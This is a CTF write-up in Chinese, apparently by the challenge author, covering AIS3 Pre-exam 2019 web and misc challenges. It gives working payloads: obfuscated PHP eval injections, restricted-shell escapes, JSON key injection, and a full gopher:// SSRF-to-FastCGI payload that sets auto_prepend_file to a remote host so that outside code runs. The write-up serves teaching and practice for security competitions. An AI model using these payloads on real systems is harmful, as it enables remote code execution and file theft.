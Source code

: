 # AIS3 Pre-exam 2019

佛系出題，每題都不擋非預期，每題都有多種簡單解法

## Web

### Simple Window

- **Solved**: 316
- 預期難度: ☆ ~ ★
<br>
- 訪問`/`時會安裝 Service Worker
- 然後把`/flag` cache成別的頁面
- 把Service Worker取消或是關掉js就可
- 或是在第一次安裝時，它其實會去fetch `/flag`內容，你只要這時候抓這個response就行

### 3v4l

- **Solved**: 28
- 預期難度: ★★ ~ ★★★
<br>
- 這題會把`$_GET["#"]`丟進`eval`跑
    - 瀏覽器送記得urlencode一下
    - `#` => `%23`
- 限制長度不能超過 18

- 解法一 (預期解)
    - PHP的`NOT`運算
    - `~%8C%86%8C%8B%9A%92` = `system`
    - `~%93%8C%DF%D0` = `ls /`
    - 組合起來: `(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);`
        - 就等於`system("ls /");`
        - 這邊可以得到flag name: `here_is_your_flag`
    - 最後去讀 flag:
        - `(~%9A%87%9A%9C)(~%9C%9E%8B%DF%D0%97%D5);`
        - `exec("cat /h*");`

- 解法二
    - 忘記擋 ``` `` ``` 和 `?`
    - 直接``` `/???/??? /*`;  ```
    - 相當於``` `/bin/cat /*`; ```

- 解法三
    - ``` `\\143\\141\\164%20/*`; ```
    - 等同``` `cat /*`; ```

- 解法四
    - 來自 @cyku 大佬 
    - ``` `{${~%A0%B8%BA%AB}[0]}`; ```
    - `~%A0%B8%BA%AB` =  `_GET`
    - 把`$_GET[0]`拿去執行
    - 完整getshell

### BabySSRF 

- **Solved**: 3
- 預期難度: ★★★ ~ ★★★★
<br>
- 這題很單純把輸入的URL拿去curl跑
- 然後擋掉`file:`, `ftp:`, `flag`, `index.php`, metadata等關鍵字
    - `gopher://`沒擋
    - 可以任意 SSRF 構造 TCP packet
- 從`/robots.txt`可以找到`info.php`
    - 單純 `phpinfo`
    - 這邊就暗示後端是用 PHP-FPM 跑的

- 所以目標很明確，就是構造 FastCGI Protocol 去 RCE
    - 但限制長度只能 `236 Bytes`

- 構造 FastCGI Protocol 很容易，網路上隨便找都有 Payload generator
    - 但長度一般都很長，必須想辦法壓下來

- 壓 Payload 長度
    - `127.0.0.1` 可以換成 `0`
    - urlencode處理好 (只有 NULL Byte 和換行需要Double encode)
    - 大部分 Params 都能拔掉
        - 重要的只有`REQUEST_METHOD`和`PHP_VALUE`
        - 如果要在單個Request就執行`prepend_file`的話，要加`SCRIPT_FILENAME`
        - 多個Request的話，可以拔掉`SCRIPT_FILENAME`，先把設定寫進去
            - 譴責這種解法
            - 需要一直狂送 Payload
            - 會把全部 fpm process 設定寫掉，影響別人解題
    - 買個短一點的 domain (X
        - 看看某海狗長度5的domain (貧窮限制了我的想像力)
    - 剩下就慢慢看 FastCGI 結構去優化

- 範例 Payload:
    - `gopher://0:9000/_%01%01%2500%01%2500%08%2500%2500%2500%01%2500%2500%2500%2500%2500%2500%01%04%2500%01%2500%7F%2500%2500%0E%03REQUEST_METHODGET%0F%16SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Finfo.php%09%3APHP_VALUEallow_url_include%3DOn%250Aauto_prepend_file%3Dhttp%3A%2F%2Fkaibro.tw%01%04%2500%01%2500%2500%2500%2500%01%05%2500%01%2500%2500%2500%2500`
    - 打開`allow_url_include`
    - 設定`auto_prepend_file=http://kaibro.tw`

- RCE之後，`/readflag`會生兩個 random integer 要你相加，答案對才噴 flag
    - 但 timeout 只有 1 秒
    - 除非你心算和手速異於常人，不然應該沒辦法手算
    - 這邊我的解法: `mkfifo pipe; cat pipe | /readflag |(read l;echo "$((${l::11}))\n" > pipe;cat)`

## Misc

### Are you admin ?

- **Solved**: 181
- 預期難度: ★★ ~ ★★☆ 
<br>
- 這題會去用JSON parse一個字串
- 字串前後的`name`和`age`都可控
    - age不能用英文字
    - 但非英文都可 (包含特殊符號)
- 中間有一個`"is_admin":"no"`
- 目標是把 parse 完的`is_admin`蓋成`yes`

- 解法一 (預期解)
    - Ruby json 可以用註解
    - name: `","is_admin":"yes",/*`
    - age: `*/"@":"@`
- 解法二
    - 用`{}`去包`is_admin`
    - name: `","is_admin":"yes","x":{"":"`
    - age: `"},"":"`

### Pysh

- **Solved**: 64
- 預期難度: ★★ ~ ★★★
<br>
- 這題限制你不能用大部分小寫英文和一堆特殊符號
- 目標是想辦法用剩下的字元去 RCE

- 解法一 (預期解)
    - `read`預設結果會存放到`$REPLY`
    - 所以`read;$REPLY`就能RCE
    - 也能`read a;$a`
- 解法二
    - `$SHELL`
    - 最多人用
- 解法三
    - `$BASH`
- 解法四
    - ``` a=`pr -T`;$a ```


----

p.s. 如果有人有其他解法歡迎發PR給我 <3
